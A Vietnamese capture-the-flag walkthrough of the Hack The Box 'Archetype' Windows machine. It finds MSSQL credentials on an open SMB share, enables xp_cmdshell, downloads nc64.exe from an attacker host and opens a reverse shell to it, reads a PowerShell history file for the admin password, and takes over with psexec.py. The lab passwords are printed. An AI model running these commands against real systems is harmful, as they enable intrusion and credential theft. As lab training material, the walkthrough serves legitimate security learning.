


# Archetype

## Introduction

Từ giờ trở đi, các box sẽ trở nên khó khăn hơn một chút trong bối cảnh các bước, cách sử dụng các công cụ và các nỗ lực khai thác vì chúng bắt đầu trông giống với các box trong nền tảng chính của HTB. Bắt đầu với Archetype là máy Windows, có thể có cơ hội khai thác cấu hình sai trong Microsoft SQL Server, thử lấy một reverse shell và làm quen với việc sử dụng công cụ Impacket để tấn công thêm một số dịch vụ.

## Enumeration

Thực hiện quét mạng để phát hiện cổng nào đang mở đã được biết đến như một phần thiết yếu của quá trình liệt kê. Điều này giúp có cơ hội hiểu rõ hơn về bề mặt tấn công và thiết kế các cuộc tấn công có mục tiêu. Như trong hầu hết các trường hợp, sử dụng công cụ nmap nổi tiếng:

```
nmap -sC -sV {TARGET_IP}
```


Thấy rằng các cổng SMB đang mở và Microsoft SQL Server 2017 đang chạy trên cổng 1433. Liệt kê SMB bằng công cụ `smbclient`:

```
smbclient -N -L \\\\{TARGET_IP}\\

-N: Không có mật khẩu
-L: Tùy chọn này cho phép xem những dịch vụ nào có sẵn trên máy chủ
```


Tìm thấy một vài share thú vị. Không thể truy cập các share `ADMIN$` & `C$` vì lỗi `Access Denied` nêu rõ, tuy nhiên, có thể thử truy cập và liệt kê các share `backups` bằng cách sử dụng lệnh sau:

```
smbclient -N \\\\{TARGET_IP}\\backups
```


Có một file có tên là `prod.dtsConfig` trông giống như một tệp cấu hình. Có thể tải tệp này xuống máy cục bộ bằng cách sử dụng lệnh `get` để kiểm tra ngoại tuyến thêm.

```
get prod.dtsConfig
```

File sẽ được lưu trong thư mục khởi chạy phiên SMB. Sau đây là nội dung của file:


Bằng cách xem xét nội dung của file cấu hình này, phát hiện ra mật khẩu của người dùng `sql_svc`, là `M3g4c0rp123`, cho máy chủ `ARCHETYPE` ở dạng cleartext. Với thông tin xác thực được cung cấp, chỉ cần một cách để kết nối và xác thực với máy chủ MSSQL. Công cụ Impacket bao gồm một tập lệnh python có giá trị có tên là mssqlclient.py cung cấp chức năng như vậy.

Nhưng trước tiên nên hiểu rõ hơn Impacket là gì và cách có thể cài đặt nó. Như tác giả đã nêu:

```
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
```

Có thể tìm và tải xuống theo liên kết sau:

https://github.com/SecureAuthCorp/impacket

Cung cấp hướng dẫn cài đặt nhanh trước khi có thể sử dụng.

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py  install
# In case you are missing some modules:
pip3 install -r requirements.txt
```

```
Lưu ý: Trong trường hợp chưa cài đặt pip3 (pip cho Python3) hoặc Python3, hãy cài đặt bằng các lệnh sau:  sudo apt install python3 python3-pip
```

Bây giờ đã sẵn sàng tìm hiểu về cách sử dụng công cụ và cụ thể là tập lệnh `mssqlclient.py`.

```
cd impacket/examples/
python3 mssqlclient.py -h
```


Sau khi hiểu các tùy chọn được cung cấp, có thể thử kết nối với máy chủ MSSQL bằng cách phát hành lệnh sau:

Có thể thử kết nối với máy chủ MSSQL bằng cách sử dụng tập lệnh mssqlclient.py của impacket cùng với các cờ sau:

```
-windows-auth: cờ này được chỉ định để sử dụng Xác thực Windows
```

```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```

Cung cấp mật khẩu đã tìm thấy trước đó trong tệp cấu hình:


Xác thực thành công với Microsoft SQL Server!

## Foothold

Sau khi kết nối thành công, nên kiểm tra thêm tùy chọn trợ giúp của SQL shell:


Tùy chọn trợ giúp mô tả những chức năng cơ bản nhất mà nó cung cấp, điều đó có nghĩa là cần nghiên cứu thêm về điều này để hiểu được hoạt động bên trong của từng tính năng.

Sau đây là hai bài viết tuyệt vời có thể hướng dẫn tiếp tục hành trình khám phá MSSQL Server:
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

Bước đầu tiên cần kiểm tra vai trò trong máy chủ. Sử dụng lệnh được tìm thấy trong bảng hướng dẫn ở trên:

```
SELECT is_srvrolemember('sysadmin');
```


Đầu ra là `1`, có nghĩa là `True`.

Trong các hướng dẫn trước, tìm thấy cách thiết lập thực thi lệnh thông qua `xp_cmdshell`:

```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005, trước tiên có thể cần kích hoạt lại xp_cmdshell vì nó bị tắt theo mặc định:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

Trước tiên, nên kiểm tra xem `xp_cmdshell` đã được kích hoạt hay chưa bằng cách đưa ra lệnh đầu tiên:

```
SQL> EXEC xp_cmdshell 'net user';
```


Thật vậy, không được kích hoạt. Vì lý do này sẽ cần tiến hành kích hoạt `xp_cmdshell` như sau:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Bật sp_configure như đã nêu trong thông báo lỗi ở trên
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


Bây giờ có thể thực hiện các lệnh hệ thống:

```
SQL> xp_cmdshell "whoami"
```



Cuối cùng đã có thể thực thi lệnh!

Bây giờ sẽ cố gắng để có được một reverse shell ổn định. Tải file binary `nc64.exe` lên máy đích và thực thi process `cmd.exe` tương tác trên cổng lắng nghe.

Có thể tải file binary từ https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------.

Điều hướng đến thư mục và sau đó khởi động máy chủ HTTP đơn giản, sau đó là trình lắng nghe netcat trong một tab khác bằng cách sử dụng các lệnh sau:

```
sudo python3 -m http.server 80
```

```
sudo nc -lvnp 443
```

Để tải tệp nhị phân lên hệ thống đích, cần tìm thư mục phù hợp cho tệp đó. Sử dụng PowerShell cho các tác vụ sau vì nó cung cấp nhiều tính năng hơn so với command prompt thông thường. Để sử dụng nó, sẽ phải chỉ định nó mỗi lần muốn thực thi cho đến khi nhận được reverse shell. Để thực hiện điều đó, sử dụng cú pháp sau: `powershell -c command`

Cờ `-c` hướng dẫn powershell thực thi lệnh.

Print thư mục làm việc hiện tại bằng cách phát hành lệnh sau:

Đã tìm thấy thư mục nơi sẽ đặt tệp nhị phân. Để thực hiện điều đó, sử dụng alias `wget` trong Powershell (`wget` thực chất chỉ là alias cho `Invoke-WebRequest`):

```
xp_cmdshell "powershell -c pwd"
```

Với tư cách là người dùng `archetype\sql_svc`, không có đủ quyền để tải tệp lên thư mục hệ thống và chỉ người dùng `Administrator` mới có thể thực hiện các hành động có quyền cao hơn. Cần thay đổi thư mục làm việc hiện tại ở đâu đó trong thư mục home của người dùng, nơi có thể ghi. Sau khi liệt kê nhanh, thấy rằng Downloads hoạt động hoàn hảo để đặt tệp nhị phân. Để thực hiện điều đó, sử dụng công cụ `wget` trong PowerShell:

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget 
http://10.10.14.9/nc64.exe -outfile nc64.exe"
```

Có thể xác minh trên máy chủ Python HTTP đơn giản rằng máy đích thực sự đã thực hiện yêu cầu:


Bây giờ, có thể liên kết `cmd.exe` thông qua `nc` với trình lắng nghe:

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"
```

Cuối cùng khi nhìn lại trình lắng nghe netcat, có thể xác nhận reverse shell và chỗ đứng trong hệ thống:


User flag có thể được tìm thấy trên Desktop của user:


## Privilege Escalation

Đối với việc leo thang đặc quyền, sử dụng một công cụ có tên là `winPEAS`, có thể tự động hóa một phần lớn quy trình liệt kê trong hệ thống mục tiêu. Có thể tìm thêm thông tin về việc liệt kê hệ thống Windows cho các đường dẫn leo thang đặc quyền trong mô-đun Windows Privilege Escalation của HTB academy.


Có thể tải winpeas từ https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe. Chuyển nó đến hệ thống mục tiêu bằng cách sử dụng lại máy chủ HTTP Python:

```
python3 -m http.server 80
```

Trên máy đích, thực hiện lệnh `wget` để tải chương trình từ hệ thống. File sẽ được tải xuống trong thư mục mà lệnh `wget` đã chạy. Sử dụng powershell cho tất cả các lệnh:

```
powershell wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe
```


Đã tải xuống thành công file binary. Để thực thi nó, thực hiện như sau:

```
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Lưu ý: Đầu ra của công cụ này khá dài, ở đây chỉ thấy một phần nhỏ của đầu ra.

Đây là phần quan trọng của đầu ra:


Từ kết quả đầu ra, có thể quan sát thấy `SeImpersonatePrivilege` (có thể tìm thêm thông tin tại https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), cũng dễ bị khai thác (https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato). Tuy nhiên, trước tiên có thể kiểm tra hai tệp hiện có mà thông tin đăng nhập có thể được tìm thấy.

Vì đây là tài khoản người dùng thông thường cũng như tài khoản dịch vụ, nên cần kiểm tra các tệp thường xuyên truy cập hoặc lệnh đã thực thi. Để thực hiện việc đó, đọc tệp lịch sử PowerShell, tương đương với `.bash_history` cho các hệ thống Linux. Tệp `ConsoleHost_history.txt` có thể nằm trong thư mục `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`.

Có thể điều hướng đến thư mục lưu trữ lịch sử PowerShell:


Để đọc tệp, nhập `type ConsoleHost_history.txt`:


Đã có mật khẩu dạng cleartext cho người dùng Administrator là `MEGACORP_4dm1n!!`

Bây giờ có thể sử dụng lại công cụ `psexec.py` từ bộ Impacket để lấy shell làm administrator:

```
python3 psexec.py administrator@{TARGET_IP}
```



Bây giờ có thể tìm thấy root flag trên Desktop của người dùng Administrator:


Cuối cùng đã lấy được cả hai flag!